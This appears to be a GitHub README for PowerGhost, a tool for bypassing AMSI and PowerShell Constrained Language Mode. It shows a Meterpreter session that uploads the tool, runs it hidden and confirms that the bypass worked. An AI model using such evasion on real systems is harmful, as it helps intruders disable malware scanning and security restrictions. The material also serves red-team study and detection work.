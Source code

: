 # PowerGhost
A custom run space to bypass AMSI and Constrained Language mode in PowerShell.

## Example running in Meterpreter

```
meterpreter > upload PowerGhost64.exe
[*] uploading  : PowerGhost64.exe -> PowerGhost64.exe
[*] Uploaded 6.00 KiB of 6.00 KiB (100.0%): PowerGhost64.exe -> PowerGhost64.exe
[*] uploaded   : PowerGhost64.exe -> PowerGhost64.exe
meterpreter > execute -H -i -f "PowerGhost64.exe"
Process 5276 created.
Channel 8 created.

PowerGhost by PlackyHacker
--------------------------

Type 'exit' to close.

[+] Executing AMSI bypass...
PG C:\Users\Placky> $ExecutionContext.SessionState.LanguageMode
FullLanguage
PG C:\Users\Placky>
```
